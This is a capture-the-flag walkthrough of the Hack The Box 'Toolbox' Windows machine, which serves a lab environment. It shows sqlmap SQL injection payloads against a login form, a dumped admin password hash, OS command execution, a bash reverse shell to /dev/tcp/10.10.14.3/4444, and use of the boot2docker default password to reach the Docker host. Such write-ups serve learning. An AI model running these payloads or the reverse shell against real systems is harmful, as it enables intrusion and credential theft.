





`Box: Windows`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap`](#`Initial%20Nmap`)
3. [`FTP Anonymous Access Allowed`](#`FTP%20Anonymous%20Access%20Allowed`)
4. [`Certificate Enumeration`](#`Certificate%20Enumeration`)
5. [`SQL Injection on the Web`](#`SQL%20Injection%20on%20the%20Web`)
	1. [`Gaining Reverse Shell using sqlmap`](#`Gaining%20Reverse%20Shell%20using%20sqlmap`)
	2. [`Enumerating Injection Points`](#`Enumerating%20Injection%20Points`)
	3. [`Enumerating Database & Tables`](#`Enumerating%20Database%20&%20Tables`)
	4. [`Dumping Table Contents`](#`Dumping%20Table%20Contents`)
	5. [`Executing OS commands through SQLMAP`](#`Executing%20OS%20commands%20through%20SQLMAP`)
	6. [`Grabbing Reverse Shell through SQLMAP`](#`Grabbing%20Reverse%20Shell%20through%20SQLMAP`)
6. [`Privilege Escalation`](#`Privilege%20Escalation`)

### `Box Info`
```
Toolbox is an easy difficulty Windows machine that features a Docker Toolbox installation. Docker Toolbox is used to host a Linux container, which serves a site that is found vulnerable to SQL injection. This is leveraged to gain a foothold on the Docker container. Docker Toolbox default credentials and host file system access are leveraged to gain a privileged shell on the host.
```
### `Initial Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.236
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

### `FTP Anonymous Access Allowed`
```
# ftp 10.10.10.236                                                     
Connected to 10.10.10.236.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.236:ringbuffer): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering Extended Passive Mode (|||57063|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
226 Successfully transferred "/"
```

### `Certificate Enumeration`
So while solving this box, i realized that I should have always check the certificate details. During this box, I found a weird domain name in a certificate which was revealing the login page. 



Following to the `View Certificate`, it loads the certificate in the browser which reveals the domain name. I than add it to my `/etc/hosts` file.


it loads the login page.


This login page was vulnerable to SQL Injection. 

### `SQL Injection on the Web`

So the above login page is vulnerable to SQL Injection. With a simple SQL Injection payload `admin' OR '1' = '1` and password can be anything,  I was able to load the dashboard.


Couple of important information on `About` Page


Since the login form is vulnerable to SQL Injection, I used sqlmap to get the reverse shell.

###### `Gaining Reverse Shell using sqlmap`
Okay so I know that there is a `--os-shell` flag of sqlmap which gets the reverse shell however, while solving this box I learned that you first have to enumerate Database, Tables and Columns before trying the `--os-shell` switch with the sqlmap command 

###### `Enumerating Injection Points`
```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch

<!-------- SNIPPED-------------!>

sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=admin' AND (SELECT (CASE WHEN (9490=9490) THEN NULL ELSE CAST((CHR(101)||CHR(76)||CHR(105)||CHR(67)) AS NUMERIC) END)) IS NULL AND 'qnWj'='qnWj&password=asdf

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin' AND 6749=CAST((CHR(113)||CHR(107)||CHR(113)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (6749=6749) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(98)||CHR(113)) AS NUMERIC) AND 'CWcN'='CWcN&password=asdf

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=asdf

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 7037=(SELECT 7037 FROM PG_SLEEP(5)) AND 'rRAi'='rRAi&password=asdf
---
[23:50:24] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
back-end DBMS: PostgreSQL
[23:50:25] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.megalogistic.com'
```

###### `Enumerating Database & Tables`

```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --dbs
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=admin' AND (SELECT (CASE WHEN (9490=9490) THEN NULL ELSE CAST((CHR(101)||CHR(76)||CHR(105)||CHR(67)) AS NUMERIC) END)) IS NULL AND 'qnWj'='qnWj&password=asdf

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin' AND 6749=CAST((CHR(113)||CHR(107)||CHR(113)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (6749=6749) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(98)||CHR(113)) AS NUMERIC) AND 'CWcN'='CWcN&password=asdf

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=asdf

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 7037=(SELECT 7037 FROM PG_SLEEP(5)) AND 'rRAi'='rRAi&password=asdf
---
[23:51:29] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
back-end DBMS: PostgreSQL
[23:51:29] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[23:51:29] [INFO] fetching database (schema) names
[23:51:29] [INFO] retrieved: 'public'
[23:51:30] [INFO] retrieved: 'pg_catalog'
[23:51:30] [INFO] retrieved: 'information_schema'
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch -D public --tables
[23:51:59] [INFO] retrieved: 'users'
Database: public
[1 table]
+-------+
| users |
+-------+

```

###### `Dumping Table Contents`

```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch -D public -T users --dump
[23:52:27] [WARNING] no clear password(s) found                                                                                                                        
Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+

```

###### `Executing OS commands through SQLMAP`
```
─# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --os-cmd id 
[23:53:19] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'

command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'

[23:53:20] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.megalogistic.com'
```

###### `Grabbing Reverse Shell through SQLMAP`
```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --os-shell
[23:53:28] [INFO] testing if current user is DBA
[23:53:28] [INFO] retrieved: '1'
[23:53:29] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[23:53:29] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
os-shell>
os-shell>
```

Starting the NetCat Listener on port 4444

```
os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"
```

```
# nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.236] 62211
bash: cannot set terminal process group (3549): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

Grab your user flag from `/var/lib/postgresql`. 

### `Privilege Escalation`

I was able to run `linpeas.sh`. Here are the findings.
`LinPeas findings`
```
OS: Linux version 4.14.154-boot2docker (root@08b45408fb99) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Thu Nov 14 19:19:08 UTC 2019
User & Groups: uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)
Hostname: bc56e3cc55e9

═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                                     
                                   ╚═══════════╝                                                                                                                        
╔══════════╣ Container related tools present (if any):
╔══════════╣ Container details                                                                                                                                          
═╣ Is this a container? ........... docker                                                                                                                              
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details                                                                                                                                   
═╣ Am I inside Docker group ....... No                                                                                                                                  
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found                                                                                                                           
═╣ Vulnerable to CVE-2019-5736 .... Not Found                                                                                                                           
═╣ Vulnerable to CVE-2019-13139 ... Not Found                                                                                                                           
═╣ Vulnerable to CVE-2021-41091 ... Not Found                                                                                                                           
═╣ Rootless Docker? ............... No                                                                                                                                  


╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout                                                                                      
═╣ Container ID ................... bc56e3cc55e9═╣ Container Full ID .............. bc56e3cc55e935cce7f143e7f66ffa471aa8ff2e963bdbbba42512b532f9817d     
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. kernel═╣ User proc namespace? ........... enabled         0          0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No

══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts                                
═╣ /proc mounted? ................. No                                                                                                                   <! --- SNIPPED --- !>                                                                                                                 
═╣ /proc/config.gz readable ....... No                                                                                                                   
═╣ /proc/sched_debug readable ..... No                                                                                                                   
═╣ /proc/*/mountinfo readable ..... Yes 
═╣ /sys/kernel/security present ... No
═╣ /sys/kernel/security writable .. No
```

The `Breakout Via Mounts` enabled for `/proc/*/mountinfo readable`. I was able to SSH into docker with the following method.

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
docker@172.17.0.1's password: tcuser  // This is a default password for boot2docker.

   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ whoami
whoami
docker
docker@box:~$  
docker@box:~$ sudo -l                                                          
sudo -l
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

From here I used writeup but the SSH command `ssh docker@172.17.0.1` just don't work on the box. I tried lot of things but it didn't help

```
postgres@bc56e3cc55e9:/$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Permission denied, please try again.
Permission denied, please try again.
docker@172.17.0.1: Permission denied (publickey,password,keyboard-interactive).

```